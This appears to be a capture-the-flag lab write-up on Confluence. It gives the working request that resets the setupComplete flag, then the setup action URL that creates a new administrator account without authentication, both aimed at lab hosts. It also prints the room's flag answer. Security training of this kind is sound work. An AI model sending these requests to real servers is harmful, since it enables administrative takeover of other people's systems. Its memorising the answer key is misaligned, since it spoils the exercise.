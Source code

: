 <pre><code>
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
</code></pre>

<p>Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:</p>

![image](https://github.com/user-attachments/assets/bdb9e0ea-a749-4a19-9c8e-b40a9b45f2d0)


<h3>Creating an Admin Account</h3>
<p>Creating an Admin Account</p>

<pre><code>
http://10.10.245.48:8090/setup/setupadministrator-start.action
</code></pre>

<p>Fill in the details of your new admin user and click next:</p>

![image](https://github.com/user-attachments/assets/6723f455-8797-455a-a2d7-0c77cdaebc7d)

<p>If all goes well, you should get access to Confluence with administrative privileges!</p>

![image](https://github.com/user-attachments/assets/3475c636-a5f3-4d1b-98bd-1876ae532a39)

<p>In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, check Rapid7 analysis in attackerKB.</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 2.1. <em>Log into Confluence with your new credentials. What is the value of the flag posted by admin?</em><br><a id='2.1'></a>
>> <code><strong>THM{who_needs_keys_anyway}</strong></code>

<br>


<pre><code>
http://confluence.thm:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
</code></pre>


![image](https://github.com/user-attachments/assets/4fab16e0-d9f3-45ca-a409-3524af133785)

<pre><code>
http://confluence.thm:8090/setup/setupadministrator-start.action
</code></pre>

![image](https://github.com/user-attachments/assets/c4a2ecf9-0e79-4a10-ae1e-a305d2200bf2)

<p>I registered and it worked.</p>

![image](https://github.com/user-attachments/assets/1a2eaa0c-941e-4451-ba03-c4c4c7573b60)

![image](https://github.com/user-attachments/assets/f318ab5b-da85-4f9e-8867-8d16a30b95a6)
